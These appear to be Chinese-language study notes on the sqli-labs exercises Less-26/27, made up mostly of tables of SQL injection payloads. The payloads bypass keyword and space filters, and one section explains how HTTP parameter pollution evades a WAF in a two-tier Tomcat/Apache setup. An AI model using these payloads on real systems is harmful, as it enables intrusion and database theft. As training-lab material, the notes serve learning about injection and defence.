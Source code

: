 | 注入语句                                 | 数据库语句                                                   |
| ---------------------------------------- | ------------------------------------------------------------ |
| ?id=1'%a0\|\|'1                          | SELECT * FROM users WHERE id='1' \|\| ‘1’   LIMIT 0,1        |
| ?id=100%27union%0bselect%a01,2,3\|\|%271 | SELECT * FROM users WHERE id='100' union select   1,2,3\|\|'1 |
| ?id=1') union%a0select%a01,2,3\|\|('1    | SELECT * FROM users WHERE id=('$id') LIMIT   0,1             |
| ?id=100')union%a0select%a01,user(),(‘3   | 基础与   26 一致，我们直接用 ‘) 闭合前面的，然后跟上自己构造的注入语句即 可。最后利用（'1 进行闭合即可。 |

以前的方法 1,user(),3|| "1

 

# Less27 大小写绕过

| 注入语句                                           | 数据库语句                                          |
| -------------------------------------------------- | --------------------------------------------------- |
| ?id=100'unIon%a0SelEcT%a01,database(),3\|\|'1      | 大小写绕过                                          |
| ?id=100'uniunionon%a0SelEcT%a01,database(),3\|\|'1 | 双写绕过                                            |
| ?id=100“%a0UnIon%a0SElecT%a01,user(),"3            | Union   select 1,user(),"3                          |
| ?id=100')union%a0select(1),(user()),(3)\|\|('1     | Union   select(1),(user()),(3)\|\|(1'       payload |
| ?id=100%27)unIon%0bsElect%0b1,@@basedir,3\|\|(%271 | Payload                                             |

 

 

# 服务器（两层）架构 http 参数污染 

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awcf8u3vj20kz0bg779.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awcm7vjgj20ox0asgqf.jpg)



此处我们想一个问题：index.jsp?id=1&id=2 请求，针对第一张图中的服务器配置情况， 客户端请求首先过 tomcat，tomcat 解析第一个参数，

接下来 tomcat 去请求 apache（php） 服务器，apache 解析最后一个参数。那最终返回客户端的应该是哪个参数？ 

 **Answer：此处应该是 id=2 的内容，应为时间上提供服务的是 apache（php）服务器， 返回的数据也应该是 apache 处理的数据。**

而在我们实际应用中，也是有两层服务器的情况， 那为什么要这么做？是因为我们往往在 tomcat 服务器处做数据过滤和处理，功能类似为一 个 WAF。

而正因为解析参数的不同，我们此处可以利用该原理绕过 WAF 的检测。该用法就 是 HPP（HTTPParameterPollution），http 参数污染攻击的一个应用。`HPP` 可对服务器和客 户端都能够造成一定的威胁。

| 注入语句                                 | 数据库语句           |
| ---------------------------------------- | -------------------- |
| ?id=1&id=-2'union   select 1,user(),3--+ | 对第二个参数进行注入 |
| ?id=1&id=-2" union select 1,user(),3--+  | 之前是'现在是"       |
| ?id=1&id=-2") union select 1,user(),3--+ | 之前是"现在是“）     |

